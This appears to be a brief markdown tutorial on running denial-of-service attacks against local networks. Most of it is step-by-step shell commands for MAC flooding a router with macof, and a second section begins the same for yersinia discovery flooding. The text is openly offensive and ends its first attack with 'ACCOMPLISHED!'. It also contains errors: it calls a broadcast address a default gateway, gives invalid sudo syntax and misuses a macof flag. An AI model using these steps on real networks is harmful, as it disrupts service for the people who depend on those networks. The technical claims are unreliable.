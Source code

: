 
# Denial-of-Service(DOS) Attack

## MAC Flooding
* Install macof
```bash
  $ apt-get install dsniff
  or
  $ apt-get install macof
```

*  Get help with macof
```bash
  $ macof --help
```

* Check if your device is connected to the network or not
```bash
  $ ifconfig
```
i) wlan0 (Confirms)
```bash
  $ iwconfig
```
ii) To attack on router copy 'ip' of __broadcast__ i.e for example 192.168.1.255


* To act as Super User
```bash
  $ sudo su -yourpassword
```

* To get MAC address of all the connected devices
```bash
  $ netdiscover
```
>***Note: 192.168.1.255 is a default gateway of a router***


* Finally, to flood the MAC Address
```bash
  $ macof -i wlan0 -s ip(e.g 192.168.1.255)
```
**ACCOMPLISHED!**

## Discovery Flooding

* Install yersinia
```bash
  $ apt-get install yersinia
```

*  Get help with yersinia
```bash
  $ yersinia -h
```
